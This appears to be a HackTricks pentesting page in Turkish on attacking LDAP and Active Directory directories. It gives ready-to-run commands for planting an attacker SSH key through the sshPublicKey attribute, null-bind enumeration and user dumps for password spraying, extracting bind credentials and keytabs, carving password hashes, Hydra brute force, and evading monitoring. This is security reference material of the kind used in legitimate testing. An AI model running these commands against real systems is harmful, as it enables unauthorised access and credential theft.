


# 389, 636, 3268, 3269 - Pentesting LDAP

{{#include ../banners/hacktricks-training.md}}

**LDAP** (Lightweight Directory Access Protocol), dizin hizmetlerine erişim sağlar: erişim denetimleri izin verdiğinde istemciler dizin girdilerini arayabilir, okuyabilir, ekleyebilir, değiştirebilir ve silebilir. Yaygın kurulumlarda kimlikler, gruplar, cihazlar ve hizmet yapılandırmaları depolanır. LDAP, X.500'dan türetilen dizin modellerine erişmek için daha hafif bir yol olarak tasarlanmıştır.<sup>[[6]](#references)[[7]](#references)</sup>

LDAP sunucusuna Directory System Agent (DSA) da denir. Bir dizin, adlandırma bağlamlarına bölünebilir ve DSA'lar arasında dağıtılabilir veya çoğaltılabilir; ancak her sunucuda ağacın tamamının eşitlenmiş bir kopyasının bulunması şart değildir. İstenen veriler başka bir sunucudaysa DSA yönlendirme bilgisi döndürebilir.<sup>[[6]](#references)[[7]](#references)</sup>

Girdiler bir **Directory Information Tree (DIT)** oluşturur ve Distinguished Name'lerle (DN'ler) tanımlanır. Bir kurulumda DNS tarzı etki alanı bileşenleri (`dc=example,dc=com`), ülke/kurum bileşenleri, organizasyon birimleri veya şemaya uygun başka bir hiyerarşi kullanılabilir; her ağacın ülke → kurum düzenini izlemesi gerekmez.<sup>[[6]](#references)</sup>

**Yaygın portlar:** LDAP için TCP 389 (isteğe bağlı olarak StartTLS ile yükseltilebilir) ve TLS üzerinden LDAP (`ldaps`) için TCP 636. Aynı zamanda Global Catalog sunucusu olan bir Active Directory domain controller'da TCP 3268, Global Catalog LDAP; TCP 3269 ise TLS üzerinden Global Catalog LDAP sağlar.<sup>[[8]](#references)</sup>

```
PORT    STATE SERVICE REASON
389/tcp open  ldap    syn-ack
636/tcp open  tcpwrapped
```

### LDAP Veri Değişim Biçimi

LDIF (LDAP Data Interchange Format), dizin içeriğini bir kayıt kümesi olarak tanımlar. Ayrıca güncelleme isteklerini (Add, Modify, Delete, Rename) de temsil edebilir.

```bash
dn: dc=local
dc: local
objectClass: dcObject

dn: dc=moneycorp,dc=local
dc: moneycorp
objectClass: dcObject
objectClass: organization

dn: ou=it,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: it

dn: ou=marketing,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: marketing

dn: uid=pepe,ou=it,dc=moneycorp,dc=local
objectClass: inetOrgPerson
cn: Pepe Example
sn: Example
givenName: Pepe
uid: pepe
mail: pepe@hacktricks.xyz
telephoneNumber: 23627387495
```

- 1-3. satırlar, en üst düzey etki alanı olan `local`'ı tanımlar
- 5-8. satırlar, ilk düzey etki alanı olan `moneycorp`'u (`moneycorp.local`) tanımlar
- 10-16. satırlar, `it` ve `marketing` adlı iki organizasyon birimini tanımlar.
- Son kayıt, bir kişi girdisi oluşturur ve şemaya uygun öznitelikler atar.

## Veri yazma

Yazılabilir öznitelikler, dizinin kendisinin ötesinde güvenlik etkilerine sahip olabilir. Örneğin, bir ana makine SSH yetkili anahtarlarını LDAP'tan alacak şekilde açıkça yapılandırılmışsa ve hedefin `sshPublicKey` özniteliğini değiştirebiliyorsanız, kullanıcının parolası olmadan o kullanıcı olarak kimlik doğrulaması yapabilirsiniz. SSH entegrasyonunu ve öznitelik eşlemesini doğrulayın; özniteliğin mevcut olması, herhangi bir ana makinenin onu kullandığını kanıtlamaz.<sup>[[1]](#references)</sup>

Dizin yazma erişimi, Linux hesabının `gidNumber` veya `userPassword` özniteliklerini de etkileyebilir; ancak bu yalnızca hedef ana makinenin NSS/SSSD ve kimlik doğrulama yığını bu öznitelikleri kullanıyorsa geçerlidir. SSH ve sudo üzerinden ilerlemek için etkin `AuthorizedKeysCommand` ayarını veya başka bir anahtar kaynağını, eşlenen yerel grubu, bu grup için bir sudoers kuralını ve politikanın parola gereksinimini doğrulayın. Bir dizin girdisinin yazılabilir olması tek başına root erişimi sağlamaz; önbelleğe alınmış kimlikler, eşleme değişikliğinin uygulanmasını geciktirebilir.

```bash
# Example from https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/
>>> import ldap3
>>> server = ldap3.Server('x.x.x.x', port =636, use_ssl = True)
>>> connection = ldap3.Connection(server, 'uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN', 'PASSWORD', auto_bind=True)
>>> connection.bind()
True
>>> connection.extend.standard.who_am_i()
u'dn:uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN'
>>> connection.modify('uid=USER,ou=USERS,dc=DOMAIN,dc=TLD', {'sshPublicKey': [(ldap3.MODIFY_REPLACE, ['ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHRMu2et/B5bUyHkSANn2um9/qtmgUTEYmV9cyK1buvrS+K2gEKiZF5pQGjXrT71aNi5VxQS7f+s3uCPzwUzlI2rJWFncueM1AJYaC00senG61PoOjpqlz/EUYUfj6EUVkkfGB3AUL8z9zd2Nnv1kKDBsVz91o/P2GQGaBX9PwlSTiR8OGLHkp2Gqq468QiYZ5txrHf/l356r3dy/oNgZs7OWMTx2Rr5ARoeW5fwgleGPy6CqDN8qxIWntqiL1Oo4ulbts8OxIU9cVsqDsJzPMVPlRgDQesnpdt4cErnZ+Ut5ArMjYXR2igRHLK7atZH/qE717oXoiII3UIvFln2Ivvd8BRCvgpo+98PwN8wwxqV7AWo0hrE6dqRI7NC4yYRMvf7H8MuZQD5yPh2cZIEwhpk7NaHW0YAmR/WpRl4LbT+o884MpvFxIdkN1y1z+35haavzF/TnQ5N898RcKwll7mrvkbnGrknn+IT/v3US19fPJWzl1/pTqmAnkPThJW/k= badguy@evil'])]})
```

## Linux istemci tarafı LDAP artefaktları

LDAP/AD ile entegre Linux sistemlerde değerli sırlar genellikle yalnızca LDAP sunucusunun kendisinde değil, **istemci yapılandırmasında** bulunur.

Yaygın dosyalar:

```bash
ls -l /etc/sssd/sssd.conf /etc/nslcd.conf /etc/ldap/ldap.conf /etc/krb5.conf 2>/dev/null
sed -n '1,120p' /etc/sssd/sssd.conf 2>/dev/null
sed -n '1,120p' /etc/nslcd.conf 2>/dev/null
```

Yüksek değerli anahtarlar:

- **`ldap_uri`** ve **`ldap_search_base`**: nerede ve neyin sorgulanacağını gösterir
- **`ldap_default_bind_dn`** ve **`ldap_default_authtok`**: yeniden kullanılabilir bind kimlik bilgileri
- **`id_provider`** / **`auth_provider`**: SSSD'nin LDAP, Kerberos ya da her ikisini kullanıp kullanmadığını gösterir

Faydalı devam adımı:

```bash
grep -nE '^(ldap_uri|ldap_search_base|ldap_default_bind_dn|ldap_default_authtok|id_provider|auth_provider)\\s*=' \
  /etc/sssd/sssd.conf /etc/nslcd.conf 2>/dev/null

ldapsearch -x -H ldap://<target> -D "<bind-dn>" -w '<password>' -b "<base-dn>"
```

Bakılacaklar:

- **herkesçe okunabilir `sssd.conf` / `nslcd.conf`**
- düz metin bind kimlik bilgileri
- okunabilir bir yapılandırmayı gerçek bir yetkilendirme etkisine dönüştüren, dizin destekli SSH veya sudo entegrasyonları

## Düz metin kimlik bilgileri ve TLS downgrade riskleri

Korumasız bir bağlantı üzerinden yapılan LDAP **simple bind**, bind DN ve parolasını aradaki bir gözlemciye açığa çıkarır. Her kimlik doğrulama mekanizması düz metin kullanmaz: SASL mekanizmaları kendi bütünlük/gizlilik korumalarını sağlayabilir; ayrıca StartTLS veya `ldaps://` oturumu koruyabilir.<sup>[[9]](#references)</sup>

Bir istemci TLS'yi isteğe bağlı gördüğünde ve korumasız bir simple bind'e geri döndüğünde, aradaki bir saldırgan StartTLS'yi engelleyebilir veya bağlantıyı etkileyebilir. Doğru yapılandırılmış bir istemci, kimlik bilgilerini göndermeden önce TLS'yi zorunlu tutmalı ve anlaşma başarısız olursa güvenli biçimde bağlantıyı kesmelidir.

`ldaps://` veya başarıyla anlaşılmış StartTLS kullanıldığında, trafiğin ele geçirilmesi için istemcinin güvenilmeyen ya da ad eşleşmesi olmayan bir sertifikayı kabul etmesi veya güvenilen bir CA/anahtarın ele geçirilmesi gerekir. LDAP istemcileri çoğunlukla gözetimsiz hizmetler olduğundan, ilgili denetim kullanıcıya gösterilen etkileşimli bir istem değil, sertifika doğrulama ilkesidir.<sup>[[10]](#references)</sup>

## Anonim Erişim

### TLS SNI denetimini atlatma

Atıfta bulunulan ortamda, saldırganın seçtiği bir ana bilgisayar adının LDAP hizmetine çözümlenmesi, TLS bağlantısının kabul edilme biçimini değiştirdi ve anonim olarak okunabilen bir dizine erişim sağladı. Bunu genel bir LDAP kimlik doğrulama atlatması olarak değil, dağıtıma özgü bir ana bilgisayar adı/SNI ve sertifika yönlendirme denetimi olarak ele alın:<sup>[[2]](#references)</sup>

```bash
ldapsearch -H ldaps://company.com:636/ -x -s base -b '' "(objectClass=*)" "*" +
```

### LDAP anonim bind'leri

LDAP anonim bind'i, kimlik doğrulaması yapılmamış bir yetkilendirme durumu oluşturur. Active Directory, RootDSE'nin sınırlı şekilde anonim keşfine izin verir ancak Windows Server 2003'ten beri varsayılan olarak dizin verilerinde arama yapmak için genellikle kimlik doğrulaması gerekir. Yöneticiler, eski uygulamalar için daha geniş anonim erişimi bilinçli olarak tanımlayabilir; hatalı bir ACL ise kullanıcıları, grupları, bilgisayarları, öznitelikleri veya ilke verilerini açığa çıkarabilir.<sup>[[3]](#references)</sup>

### NetExec ile anonim LDAP enumeration (null bind)

Null/anonim bind'e izin veriliyorsa NetExec'in LDAP modülüyle kimlik bilgileri olmadan doğrudan kullanıcıları, grupları ve öznitelikleri alabilirsiniz.<sup>[[4]](#references)[[5]](#references)</sup> Yararlı filtreler:
- (objectClass=*) temel DN altındaki nesnelerin envanterini çıkarmak için
- (sAMAccountName=*) kullanıcı principal'larını toplamak için

Örnekler:

```bash
# Enumerate objects from the root DSE (base DN autodetected)
netexec ldap <DC_FQDN> -u '' -p '' --query "(objectClass=*)" ""

# Dump users with key attributes for spraying and targeting
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" ""

# Extract just the sAMAccountName field into a list
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" "" \
  | awk -F': ' '/sAMAccountName:/ {print $2}' | sort -u > users.txt
```

Nelere bakılmalı:
- sAMAccountName, userPrincipalName
- Hedefli spray işlemlerinin kapsamını belirlemek için memberOf ve OU yerleşimi
- pwdLastSet (zamansal örüntüler), userAccountControl bayrakları (devre dışı, akıllı kart gerekli vb.)

Not: İstenen anonim aramaya izin verilmediğinde, bind gerektiğini belirten bir Operations hatası yaygındır. Diğer hatalar base DN, filtre, imzalama/channel-binding ilkesi veya sunucuya özgü erişim denetimleriyle ilgili olabilir.

## Valid Credentials

LDAP sunucusunda oturum açmak için geçerli kimlik bilgileriniz varsa, Domain Admin hakkındaki tüm bilgileri şu araçla dump edebilirsiniz:

[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

```bash
pip3 install ldapdomaindump
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```

### [Brute Force](../generic-hacking/brute-force.md#ldap)

## Enumeration

### Otomatik

Bu script’ler, adlandırma bağlamları ve desteklenen kontroller gibi anonim olarak erişilebilen metadata’yı ortaya çıkarabilir:

```bash
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
```

### Python

<details>

<summary>Python ile LDAP enumeration'ı görüntüleyin</summary>

Python kullanarak kimlik bilgileriyle veya kimlik bilgileri olmadan bir LDAP dizinini enumerate edebilirsiniz: `pip3 install ldap3`.

Önce kimlik bilgileri **olmadan** bağlanmayı deneyin:

```bash
>>> import ldap3
>>> server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
```

bind `True` döndürürse, naming contexts ve desteklenen özellikler gibi RootDSE metadata’sını inceleyin. Anonymous bind işleminin başarılı olması, subtree search işlemlerine izin verildiği anlamına gelmez.

```bash
>>> server.info
DSA info (from DSE):
Supported LDAP versions: 3
Naming contexts:
dc=DOMAIN,dc=DOMAIN
```

Bir adlandırma bağlamı edindikten sonra, bu alt ağaç sorgusu bind edilen kimliğin okuma iznine sahip olduğu tüm nesneleri ister:

```bash
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
True
>> connection.entries
```

Ya da tüm ldap'ı **dump** edin:

```bash
>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
True
>>> connection.entries
```

</details>

### windapsearch

[**Windapsearch**](https://github.com/ropnop/windapsearch), LDAP sorgularından yararlanarak bir **Windows etki alanındaki kullanıcıları, grupları ve bilgisayarları listelemek** için kullanışlı bir Python betiğidir.

```bash
# Get computers
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --computers
# Get groups
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --groups
# Get users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --users
# Get Domain Admins
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Privileged Users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --privileged-users
```

### ldapsearch

Boş kimlik bilgilerini veya kimlik bilgilerinizin geçerli olup olmadığını kontrol edin:

```bash
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```

```bash
# CREDENTIALS NOT VALID RESPONSE
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839
```

Başarılı bir bind işleminin tamamlanması gerektiğini belirten bir hata, istenen işlemin mevcut kimlik doğrulama durumunda izin verilmediği anlamına gelir. Bunun olası nedenleri arasında geçersiz kimlik bilgileri, anonim/atlanmış bir bind veya imzalama, channel binding ya da farklı bir kimlik doğrulama mekanizması gerektiren sunucu ilkesi bulunur.

Bir domaindeki **her şeyi** şu yöntemle çıkarabilirsiniz:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```

**kullanıcıları çıkar**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
#Example: ldapsearch -x -H ldap://<IP> -D 'MYDOM\john' -w 'johnpassw' -b "CN=Users,DC=mydom,DC=local"
```

**Bilgisayarları çıkar**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

**Bilgilerimi çıkar**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=<MY NAME>,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

**Domain Admins**'ı çıkar:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

**Domain Users'ı Çıkar**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

**Enterprise Admins** grubunu çıkarma:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

**Yöneticileri Çıkar**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

**Remote Desktop Group**'u çıkar:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Sorgulardan birini çalıştırdıktan sonra herhangi bir parolaya erişiminiz olup olmadığını görmek için grep kullanabilirsiniz:

```bash
<ldapsearchcmd...> | grep -i -A2 -B2 "userpas"
```

Parola benzeri özniteliklerdeki değerler, güncel düz metin parolalar yerine hash'ler, uygulamaya özgü sırlar, eski veriler veya yanıltıcı değerler olabilir.

#### pbis

**pbis**'i buradan indirebilirsiniz: [https://github.com/BeyondTrust/pbis-open/](https://github.com/BeyondTrust/pbis-open/) ve genellikle `/opt/pbis` konumuna kurulur.\
**PBIS Open** artık arşivlenmiş bir projedir, ancak eski LDAP/AD ile entegre ana makinelerde hâlâ kurulu olabilir. Araçları, yerel entegrasyon hakkında yararlı bilgiler açığa çıkarabilir:

```bash
#Read keytab file
./klist -k /etc/krb5.keytab

#Get known domains info
./get-status
./lsa get-status

#Get basic metrics
./get-metrics
./lsa get-metrics

#Get users
./enum-users
./lsa enum-users

#Get groups
./enum-groups
./lsa enum-groups

#Get all kind of objects
./enum-objects
./lsa enum-objects

#Get groups of a user
./list-groups-for-user <username>
./lsa list-groups-for-user <username>
#Get groups of each user
./enum-users | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do ./list-groups-for-user "$name"; echo -e "========================\n"; done

#Get users of a group
./enum-members --by-name "domain admins"
./lsa enum-members --by-name "domain admins"
#Get users of each group
./enum-groups | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do echo "$name"; ./enum-members --by-name "$name"; echo -e "========================\n"; done

#Get description of each user
./adtool -a search-user --name CN="*" --keytab=/etc/krb5.keytab -n <Username> | grep "CN" | while read line; do
    echo "$line";
    ./adtool --keytab=/etc/krb5.keytab -n <username> -a lookup-object --dn="$line" --attr "description";
    echo "======================"
done
```

## Grafik Arayüz

### Apache Directory

[**Apache Directory'yi buradan indirin**](https://directory.apache.org/studio/download/download-linux.html). Bu aracın nasıl kullanılacağına dair bir [örneği burada](https://www.youtube.com/watch?v=VofMBg2VLnw&t=3840s) bulabilirsiniz.

### jxplorer

LDAP sunucusu için grafik arayüzü buradan indirebilirsiniz: [http://www.jxplorer.org/downloads/users.html](http://www.jxplorer.org/downloads/users.html)

Varsayılan olarak `/opt/jxplorer` dizinine kurulabilir.

.png>)

### Godap

Godap, AD ve diğer LDAP sunucularındaki nesneler ve özniteliklerle etkileşim kurmak için kullanılabilen, LDAP için etkileşimli bir terminal kullanıcı arayüzüdür. Windows, Linux ve MacOS için kullanılabilir; simple bind, pass-the-hash, pass-the-ticket ve pass-the-cert işlemlerinin yanı sıra nesneleri arama/oluşturma/değiştirme/silme, gruplara kullanıcı ekleme/çıkarma, parolaları değiştirme, nesne izinlerini (DACLs) düzenleme, Active-Directory Integrated DNS'i (ADIDNS) değiştirme, JSON dosyalarına aktarma gibi çeşitli özel özellikleri destekler.



Araca [https://github.com/Macmod/godap](https://github.com/Macmod/godap) adresinden erişebilirsiniz. Kullanım örnekleri ve talimatlar için [Wiki](https://github.com/Macmod/godap/wiki) sayfasını okuyun.

### Ldapx

Ldapx, diğer araçlardan gelen LDAP trafiğini incelemek ve dönüştürmek için kullanılabilen esnek bir LDAP proxy'sidir. Kimlik koruma ve LDAP izleme araçlarını atlatmayı denemek amacıyla LDAP trafiğini gizlemek için kullanılabilir ve [MaLDAPtive](https://www.youtube.com/watch?v=mKRS5Iyy7Qo) konuşmasında sunulan yöntemlerin çoğunu uygular.



Aracı [https://github.com/Macmod/ldapx](https://github.com/Macmod/ldapx) adresinden edinebilirsiniz.

## Kerberos ile Kimlik Doğrulama

Geçerli bir Kerberos kimlik bilgisi önbelleği ve doğru service principal/DNS yapılandırmasıyla `ldapsearch -Y GSSAPI`, simple bind yerine SASL GSSAPI kullanır. Başka bir komutun NTLM kullanıp kullanmayacağı LDAP kütüphanesine ve SASL mekanizmasına bağlıdır; `ldapsearch -x` özellikle simple authentication ister.

## Post-exploitation

Eski OpenLDAP kurulumları Berkeley DB dosyalarını `/var/lib/ldap` altında saklayabilir. Kullanılan backend okunabilir `.bdb` dosyalarını kullanıyorsa bu tarihî string-carving yaklaşımı parola hash kayıtlarını kurtarabilir; ancak modern `mdb` backend'leri ve ikili veritabanı biçimleri, backend'i destekleyen çevrimdışı araçlar veya tutarlı bir yedek gerektirir:

```bash
cat /var/lib/ldap/*.bdb | grep -i -a -E -o "description.*" | sort | uniq -u
```

Yalnızca hash değerini (örneğin, `{SSHA}` ile başlayan dizeyi) çıkarın ve uygun John the Ripper/Hashcat biçimini seçin. `structuralObjectClass` gibi bitişik LDIF veya veritabanı alanlarını eklemeyin.

### Yapılandırma Dosyaları

- Genel
  - containers.ldif
  - ldap.cfg
  - ldap.conf
  - ldap.xml
  - ldap-config.xml
  - ldap-realm.xml
  - slapd.conf
- IBM SecureWay V3 sunucusu
  - V3.sas.oc
- Microsoft Active Directory sunucusu
  - msadClassesAttrs.ldif
- Netscape Directory Server 4
  - nsslapd.sas_at.conf
  - nsslapd.sas_oc.conf
- OpenLDAP dizin sunucusu
  - slapd.sas_at.conf
  - slapd.sas_oc.conf
- Sun ONE Directory Server 5.1
  - 75sas.ldif

## HackTricks Otomatik Komutlar

```
Protocol_Name: LDAP    #Protocol Abbreviation if there is one.
Port_Number:  389,636     #Comma separated if there is more than one.
Protocol_Description: Lightweight Directory Access Protocol         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for LDAP
  Note: |
    The use of LDAP (Lightweight Directory Access Protocol) is mainly for locating various entities such as organizations, individuals, and resources like files and devices within networks, both public and private. It offers a streamlined approach compared to its predecessor, DAP, by having a smaller code footprint.

    https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html

Entry_2:
  Name: Banner Grab
  Description: Grab LDAP Banner
  Command: nmap -p 389 --script ldap-search -Pn {IP}

Entry_3:
  Name: LdapSearch
  Description: Base LdapSearch
  Command: ldapsearch -H ldap://{IP} -x

Entry_4:
  Name: LdapSearch Naming Context Dump
  Description: Attempt to get LDAP Naming Context
  Command: ldapsearch -H ldap://{IP} -x -s base namingcontexts

Entry_5:
  Name: LdapSearch Big Dump
  Description: Need Naming Context to do big dump
  Command: ldapsearch -H ldap://{IP} -x -b "{Naming_Context}"

Entry_6:
  Name: Hydra Brute Force
  Description: Need User
  Command: hydra -l {Username} -P {Big_Passwordlist} {IP} ldap2 -V -f

Entry_7:
    Name: Netexec LDAP BloodHound
    Command: nxc ldap <IP> -u <USERNAME> -p <PASSWORD> --bloodhound -c All -d <DOMAIN.LOCAL> --dns-server <IP> --dns-tcp
```

## References

- [1] [LDAP Sunucusunda NULL Bind Açığından Yararlanma](https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/)
- [2] [PHP'de Özel Sınıflar Olmadan Keyfi Nesne Örneklemelerinden Yararlanma](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [3] [Microsoft: Active Directory'de Anonim LDAP işlemleri devre dışı](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/anonymous-ldap-operations-active-directory-disabled)
- [4] [HTB: Baby — Anonim LDAP → Password Spray → SeBackupPrivilege → Domain Admin](https://0xdf.gitlab.io/2025/09/19/htb-baby.html)
- [5] [NetExec (CME'nin halefi)](https://github.com/Pennyw0rth/NetExec)
- [6] [RFC 4512 – LDAP Dizin Bilgi Modelleri](https://www.rfc-editor.org/rfc/rfc4512)
- [7] [RFC 4511 – LDAP protokol işlemleri](https://www.rfc-editor.org/rfc/rfc4511)
- [8] [Microsoft Active Directory LDAP ve Global Catalog portları](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1010e59a-cf64-410c-a05c-a3a6c715261a)
- [9] [RFC 4513 – LDAP kimlik doğrulama yöntemleri ve güvenlik mekanizmaları](https://www.rfc-editor.org/rfc/rfc4513)
- [10] [OpenLDAP 2.6 Yönetici Kılavuzu – TLS kullanımı](https://openldap.org/doc/admin26/tls.html)
{{#include ../banners/hacktricks-training.md}}
